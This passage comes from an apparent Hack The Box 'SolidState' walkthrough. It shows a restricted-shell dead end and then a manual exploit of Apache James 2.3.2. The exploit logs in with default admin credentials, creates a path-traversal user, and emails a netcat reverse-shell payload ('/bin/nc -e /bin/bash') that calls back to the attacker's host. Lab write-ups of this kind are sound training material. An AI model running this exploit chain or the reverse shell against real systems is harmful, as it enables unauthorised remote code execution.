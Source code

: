 The “ls” and “cat” commands work, so we can at least view the user.txt flag.

![](https://miro.medium.com/max/597/1*nLY63rKrGS5cSJYalIg0rg.png)

There are several things you can do to try and break out of a restricted shell. I tried a bunch of them, but nothing worked. I’m not even allowed to change directories!

```text
mindy@solidstate:~$ cd /home
-rbash: cd: restricted
```

We seem to have reached a dead end, so let’s go back to the RCE exploit we found earlier. I’m going to exploit this manually instead of using the script on exploitdb.

Log back into the James Remote Admin server and create a user with the username “../../../../../../../../etc/bash\_completion.d” and password “password”.

```text
root@kali:~/Desktop/htb/solidstate# nc 10.10.10.51 4555
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
adduser ../../../../../../../../etc/bash_completion.d password
User ../../../../../../../../etc/bash_completion.d added
```

Now let’s send this user an email that contains a reverse shell.

```text
root@kali:~# telnet 10.10.10.51 25
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Mon, 30 Dec 2019 17:10:56 -0500 (EST)
EHLO bla.bla
250-solidstate Hello bla.bla (10.10.14.12 [10.10.14.12])
250-PIPELINING
250 ENHANCEDSTATUSCODES
MAIL FROM: <'random@random.com>
250 2.1.0 Sender <'random@random.com> OK
RCPT TO: <../../../../../../../../etc/bash_completion.d>
250 2.1.5 Recipient <../../../../../../../../etc/bash_completion.d@localhost> OK
DATA
354 Ok Send data ending with <CRLF>.<CRLF>
FROM: bla.bla
'
/bin/nc -e /bin/bash 10.10.14.12 1234
.
250 2.6.0 Message received
quit
221 2.0.0 solidstate Service closing transmission channel
Connection closed by foreign host.
```
